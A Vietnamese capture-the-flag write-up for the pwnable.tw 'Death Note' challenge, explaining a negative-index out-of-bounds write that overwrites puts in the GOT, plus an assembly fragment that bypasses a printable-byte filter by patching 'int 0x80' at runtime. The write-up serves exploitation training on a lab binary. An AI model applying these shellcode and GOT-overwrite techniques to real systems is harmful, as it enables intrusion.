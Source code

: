 # [pwnable.tw] - Death Note

<img src="./images/Death Note.png" alt="Death Note" width="550" height="300">

## A. CHALLENGE 

### [1] Binary Mitigations. 

- Kiểm tra thông tin cơ bản của file.

![checksec.png](./images/checksec.png)

> Chương trình 32-bit và ta thấy có phân vùng full quyền nên ý tưởng đầu tiên nảy ra là tiến hành ghi shellcode.

## B. OVERVIEW

![run.png](./images/run.png)

- Chương trình cung cấp các hàm thao tác với bộ nhớ heap như các challenge heap khác như phân bổ, thêm và giải phóng đối tượng ở đây là các note.

### [1] Vulnerability Analysis.

- Ta có thể thấy lỗi ở hàm `add_note()` khi mà chương trình kiểm tra idx, nó cho phép ta phân bổ một khối malloc với con trỏ được lưu trên biến global `&note`, nếu idx âm sẽ xảy ra `Out-of-bound` và ghi đè vào các GOT của các hàm LIBC.

```c
unsigned int add_note()
{
  int idx; // [esp+8h] [ebp-60h]
  char s[80]; // [esp+Ch] [ebp-5Ch] BYREF
  unsigned int v3; // [esp+5Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  printf("Index :");
  idx = read_int();
  if ( idx > 10 )                               // idx can value negative
  {
    puts("Out of bound !!");
    exit(0);
  }
  printf("Name :");
  read_input(s, 0x50u);
  if ( !is_printable(s) )
  {
    puts("It must be a printable name !");
    exit(-1);
  }
  *(&note + idx) = strdup(s);                   // out of bound when idx negative
  puts("Done !");
  return __readgsdword(0x14u) ^ v3;
}
```

### [2] Idea Exploit.

- Chương trình lọc các byte <= 0x1F và == 0x7F.

```c
int __cdecl is_printable(char *s)
{
  size_t i; // [esp+Ch] [ebp-Ch]

  for ( i = 0; strlen(s) > i; ++i )
  {
    if ( s[i] <= 0x1F || s[i] == 0x7F )
      return 0;
  }
  return 1;
}
```
- Vì vậy không thể sử dụng các instruction sau:
  * mov a, b
  * int 0x80

- Với câu lệnh đầu tiên ta sử dụng push b, pop a để thay thế.
- Đặc biệt với `int 0x80` == `"\xcd\x80"` ta sẽ thay thế bằng cách đặt 2 byte cuối = `"\x20\x43"` sau đó sử dụng chính shellcode để trừ hai byte cho 0x53 rồi xor byte cuối cùng với 0x70 để có được lại byte đúng int 0x80 sau khi filter.
## C. EXPLOITATION

- Tiến hành ghi đè vào `GOT của puts` - __(offset -16)__ để ngay sau khi ghi đè câu lệnh `puts("Done !");` sẽ nhảy đến shellcode.

- Thực hiện bypass __int 0x80__ bằng chính shellcode.

```asm
    push edx
    pop eax
    push 0x53
    pop edx
    sub byte ptr [eax+39],dl
    sub byte ptr [eax+40],dl
    push 0x70
    pop edx
    xor byte ptr [eax+40],dl
```

- Do trước khi PLT nhảy đến GOT thì giá trị của EDX là shellcode được `strdup()` trên heap.

![debug1.png](./images/debug1.png)

- Sử dụng trực tiếp EDX để tiến hành xử lý hai byte cuối thành "\xcd\x80"

## D. FLAG

- Khai thác thành công remote nhưng local thì không (không rõ tại sao remote lại được) do strdup() phân bổ trên heap mà ở vùng nhớ heap không có quyền executre giống trên stack.

- Tiến hành viết file [exp.py](./exp.py) và khai thác:

![flag.png](./images/flag.png)

